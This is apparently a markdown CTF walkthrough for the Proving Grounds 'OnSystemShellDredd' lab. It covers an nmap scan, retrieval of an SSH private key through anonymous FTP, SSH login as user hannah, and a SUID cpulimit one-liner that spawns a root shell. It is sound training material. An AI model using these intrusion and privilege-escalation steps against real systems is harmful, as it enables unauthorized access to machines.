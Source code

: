 ```yaml
---
layout: default
title: OnSystemShellDredd
parent: Proving Grounds Play
nav_order: 28
---
```


## Discovered Ports for Enumeration

- _21_ - FTP
- _61000_ - SSH

## Users and Credentials

- _Users_: hannah
- _Credentials_:

# Scanning

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.199.130
```

# Enumeration

---

## 21 - FTP

Anonymous login allowed.

Discovered hidden directory named _.hannah_

Discovered private RSA key.

![rsa_key](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/rsa_key.png)

Download the private key and save locally to _id_rsa_ file.

# Exploitation

---

Use the downloaded RSA private key to authenticate to port 61000 SSH as user _hannah_

![ssh](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/ssh.png)

# Post-Exploitation

---

## Check SUID/GUID Permissions

```bash
find / -perm -u=s -type f 2>/dev/null
```

![suid](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/suid.png)

![gtfobins](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/gtfobins.png)

## Exploit Cpulimit SUID to get root

```bash
cpulimit -l 100 -f -- /bin/sh -p
```

![root](../../../assets/images/ctfs/proving_grounds/onsystemshelldredd/root.png)
